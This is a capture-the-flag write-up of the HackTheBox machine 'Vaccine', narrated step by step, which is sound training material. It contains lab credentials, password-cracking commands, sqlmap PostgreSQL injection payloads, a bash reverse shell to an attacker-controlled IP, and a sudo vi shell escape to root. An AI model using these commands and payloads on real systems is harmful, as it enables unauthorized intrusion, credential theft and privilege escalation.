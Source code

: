 # Vaccine -- HackTheBox

## Let's jump into it

As always, the first stage is to find informations with  
`nmap -sC -sV 10.10.10.46`

And we see 3 Open Ports: 21/22/80, respectively ftp/ssh/http
In the Last box we remember this: `ftpuser / mc@F1l3ZilL4` so let's use it  
Once logged there is a backup.zip file let's just get it  
But trying to unzip it, it reveals to be passw protected !!

## Zip Zip Open !

To break this Zip file let's juste use [JohnTheRipper](https://github.com/openwall/john)  
Let's first break our zip with `zip2john backup.zip > hash` and then let's give it to john with the well known rockyou.txt dictionnary:

```bash
john hash --fork=4 -w=/home/romain/tools/dict/rockyou.txt
```

And we get in retrun the following passw: "741852963" !!  
Let's open our archive then! 
We don't really care about the css but the php !!!!! Really cool and we have a MD5 password !!

## Break the MD5 password!

I honestly don't know a lot of rainbow table tools but there is one, ALWAYS RELAYABLE
the only one and unique [CrackStation](https://crackstation.net/) !!  
Let's use it once again by pasting our MD5 to the webpage and we have a password: "qwerty789"!!  
As it is in php, there is something interesting in our port 80!!  

## Let's break the Internet  

Just tap 10.10.10.46 in firefox and we're on a web form !  
Let's use our password, and as they don't seems that inspired let's use "admin" as our login !
And Bingo we're on a webpage.  
After 5min on the site we notice that every search request goes as a GET parameter.
And we see in the storage that we're using Cookies to keep our session Id
The get parameter seems to interact directly with the database and we have a session Id to fake our existence on the web.  
Let's try a good old sql injection!!  With SQLMap !!  

## SQL mappy! 

Let's type our sqlmap call with our addresse, a random parameter and our PHPSESSID:
`python3 ~/tools/sqlmap/sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=AAAA' --cookie="PHPSESSID=vja57thnu5f0huspo3nms2na9s"`
And there it goes --> Effectively our search parameter is weak and SQLMap break in!  

```bash
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=AAAA' AND (SELECT (CASE WHEN (2161=2161) THEN NULL ELSE CAST((CHR(84)||CHR(111)||CHR(115)||CHR(113)) AS NUMERIC) END)) IS NULL-- MGJc

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=AAAA' AND 9214=CAST((CHR(113)||CHR(112)||CHR(112)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (9214=9214) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(113)||CHR(118)||CHR(122)||CHR(113)) AS NUMERIC)-- gIac

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=AAAA';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=AAAA' AND 3159=(SELECT 3159 FROM PG_SLEEP(5))-- gqNs
---
[21:41:56] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[21:41:57] [INFO] fetched data logged to text files under '/home/romain/.local/share/sqlmap/output/10.10.10.46'

[*] ending @ 21:41:57 /2020-09-19/
```

And so we goes just the same command but add --os-shell to the end so we can use some basic commands!
But the postgreSql is not that friendly so let's put a reverse shell in our database and access it later!  

## The Ultime Reverse Card

We can send a reverse shell from a bash command and here it is:
`bash -c 'bash -i >& /dev/tcp/MON_IP/4444 0>&1'`  
(choose every port you want we don't really care about that)
**REMINDER:** As we're working on a private and independant network, your personal ip is on the the website as "HTB Network IPv4" !!
Now that my reverse shell is active let's just do a `whoami` to discover that we're postgres !!  Great news !

## Get some privilege and chill  

So let's first use a regular bash, so do type this: `SHELL=/bin/bash script -q /dev/null`  
And then, let's go to the folder where the webpages are stocked to get stg great (/var/www/html)
And we haven't seen dashboard.js/php yet so let's have a look!!  

And here is a treasure !!

```php
try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
```

After doing a `sudo -l` we gained a lot of access and the autorisation to edit pg_hba.conf
Let's use vi and the `:` shortcut to execute a command.
Let's just do `:!/bin/bash` and now we notice that we're root !
And in our home there is a root.txt containing: `**CENSORED**` !!  

And we're done with this box!!  